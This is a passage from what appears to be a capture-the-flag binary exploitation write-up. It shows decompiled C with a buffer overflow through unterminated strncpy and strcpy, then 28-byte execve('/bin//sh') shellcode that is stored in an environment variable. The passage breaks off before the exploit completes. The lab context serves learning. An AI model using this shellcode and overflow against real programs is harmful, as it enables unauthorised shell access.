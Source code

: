 5. Pseudo-code using IDA and some manual refactoring.

    ```c
    char * p(char * input, char * separator)
    {
      char chunk[4104]; // [esp+10h] [ebp-1008h] BYREF

      puts(separator);
      read(0, chunk, 4096);

      *strchr(chunk, '\n') = '\0';

      return strncpy(input, chunk, 20);
    }

    char * pp(char * buffer)
    {
      char input_1[20]; // [esp+28h] [ebp-30h] BYREF
      char input_2[28]; // [esp+3Ch] [ebp-1Ch] BYREF

      p(input_1, " - ");
      p(input_2, " - ");

      strcpy(buffer, input_1);

      buffer[strlen(buffer)] = ' ';

      return strcat(buffer, input_2);
    }

    int main(int argc, const char **argv, const char **envp)
    {
      char buffer[42]; // [esp+16h] [ebp-2Ah] BYREF

      pp(buffer);
      puts(buffer);

      return 0;
    }
    ```

6. Ok, so, first of all, we don’t have any `system`, therefore, we are going to have to provide a ShellCode, let’s reuse the same as previously.

    ```bash
    # ShellCode (28 bytes)
    python -c "print '\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xc1\\x89\\xc2\\xb0\\x0b\\xcd\\x80\\x31\\xc0\\x40\\xcd\\x80'"
    ```

7. However, the `strncpy` is limited to `20` characters, so we aren’t going to be able to use it as input, hence another way would be to store it in an environment variable.

    ```bash
    > EXPLOIT=$(python -c "print '\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xc1\\x89\\xc2\\xb0\\x0b\\xcd\\x80\\x31\\xc0\\x40\\xcd\\x80'")
    ```
